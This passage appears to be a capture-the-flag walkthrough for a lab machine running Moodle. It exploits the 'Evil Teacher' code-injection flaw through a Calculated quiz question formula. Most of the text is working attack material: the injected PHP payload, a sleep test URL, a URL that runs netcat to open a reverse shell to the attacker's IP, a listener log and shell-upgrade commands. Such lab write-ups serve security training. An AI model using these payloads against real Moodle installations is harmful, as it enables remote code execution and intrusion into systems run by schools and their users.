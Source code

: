 #### 2.1. Exploiting "Evil Teacher"

To create a quiz:
```
Select Course -> Settings -> More -> Question bank (Questions) -> Create new question -> Calculated
```

Quiz setup:
- Question name: `a`
- Question text: `b`
- Answer 1 formula: ```/*{a*/`$_GET[666]`;//{x}}```
- Grade: `100%`
- Save Changes
- Next Page
- Append arbitrary commands to the address bar


#### 2.2. Test
```
http://10.10.10.153/moodle/question/question.php?id=7&wizardnow=datasetitems&courseid=2&666=sleep%2010
```


#### 2.2. Reverse shell
```
http://10.10.10.153/moodle/question/question.php?id=7&wizardnow=datasetitems&courseid=2&666=nc%2010.10.14.21%209191%20-e%20/bin/bash
```


#### 2.2. TTY Shell
```
$ ncat -nlvp 9191
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::9191
Ncat: Listening on 0.0.0.0:9191
Ncat: Connection from 10.10.10.153.
Ncat: Connection from 10.10.10.153:33182.
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@teacher:/var/www/html/moodle/question$ ^Z
[1]+  Stopped                 ncat -nlvp 9191
# stty raw -echo
fg
export SHELL=/bin/bash; export TERM=xterm-256color; stty rows 512 columns 256; reset
```
